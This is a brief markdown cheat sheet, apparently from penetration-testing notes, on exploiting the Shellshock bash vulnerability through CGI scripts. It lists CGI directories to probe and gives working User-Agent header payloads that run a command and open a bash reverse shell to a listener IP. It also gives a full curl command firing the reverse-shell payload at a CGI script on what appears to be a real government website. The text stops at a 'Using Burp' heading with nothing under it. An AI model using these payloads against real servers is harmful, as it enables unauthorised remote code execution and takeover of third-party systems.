

# Shellshock

## Common directories

```bash
/cgi-bin/
/cgi-sys/
/cgi-mod/
```

Search for files with extension: `.cgi`, `.sh`

## RCE

Send this on the User-Agent header:

```bash
# Get user ID
User-Agent: () { :;}; echo; /usr/bin/id

# Reverse Shell
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

Using Curl:

```
curl -i -s -k  -X $'GET' -H $'Host: esb.sa.gov.au' -H $'User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/4444 0>&1' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' $'https://www.esb.sa.gov.au/cgi-sys/defaultwebpage.cgi'
```

Using Burp:

